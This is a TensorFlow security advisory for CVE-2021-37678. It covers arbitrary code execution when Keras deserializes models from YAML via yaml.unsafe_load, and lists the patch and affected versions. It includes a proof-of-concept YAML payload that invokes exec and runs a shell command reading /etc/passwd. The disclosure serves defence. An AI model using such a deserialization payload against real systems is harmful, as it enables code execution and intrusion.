 ## TFSA-2021-152: Arbitrary code execution due to YAML deserialization

### CVE Number
CVE-2021-37678

### Impact
TensorFlow and Keras can be tricked to perform arbitrary code execution when
deserializing a Keras model from YAML format.

```python
from tensorflow.keras import models

payload = '''
!!python/object/new:type
args: ['z', !!python/tuple [], {'extend': !!python/name:exec }]
listitems: "__import__('os').system('cat /etc/passwd')"
'''

models.model_from_yaml(payload)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/python/keras/saving/model_config.py#L66-L104)
uses `yaml.unsafe_load` which can perform arbitrary code execution on the input.

### Patches
Given that YAML format support requires a significant amount of work, we have
removed it for now.

We have patched the issue in GitHub commit
[23d6383eb6c14084a8fc3bdf164043b974818012](https://github.com/tensorflow/tensorflow/commit/23d6383eb6c14084a8fc3bdf164043b974818012).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Arjun Shibu.
